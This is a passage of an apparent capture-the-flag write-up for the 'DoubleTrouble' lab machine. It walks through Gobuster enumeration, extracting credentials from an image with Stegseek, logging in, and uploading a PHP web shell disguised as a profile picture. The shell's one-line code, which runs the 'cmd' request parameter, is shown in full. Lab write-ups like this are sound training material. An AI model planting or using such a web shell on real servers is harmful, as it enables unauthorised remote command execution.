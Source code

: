 ![2](/images/writeups/doubletrouble/2.png)

When we visit the hosted website, we see a **login page**, just like the **Nmap** scan showed.

![3](/images/writeups/doubletrouble/3.png)

We will perform **directory enumeration** with [**Gobuster**](https://github.com/OJ/gobuster) to identify any directories that might help us.

```bash
gobuster dir -u http://192.168.18.191/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

We find the following directory, which will be useful since the others don’t contain anything significant

![4](/images/writeups/doubletrouble/4.png)

Inside the ***/secret*** directory, there is an image, so I decide to download it and apply **steganography techniques** to see if there is any **hidden information** in the image.

![5](/images/writeups/doubletrouble/5.png)

```bash
wget http://192.168.18.191/secret/doubletrouble.jpg
```

We are going to use **Stegseek**.

![6](/images/writeups/doubletrouble/6.png)
<h6>Using Stegseek</h6>

Inside this, you will find the login credentials.

![7](/images/writeups/doubletrouble/7.png)

So, we log in through the page we saw earlier using the obtained credentials.

![8](/images/writeups/doubletrouble/8.png)

![9](/images/writeups/doubletrouble/9.png)

Now that we are inside, let's upload a **malicious PHP file** to execute commands. I am going to upload it as the user's profile picture.

![10](/images/writeups/doubletrouble/10.png)
<h6>We upload the malicious PHP</h6>

The code:

```php
<?php
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
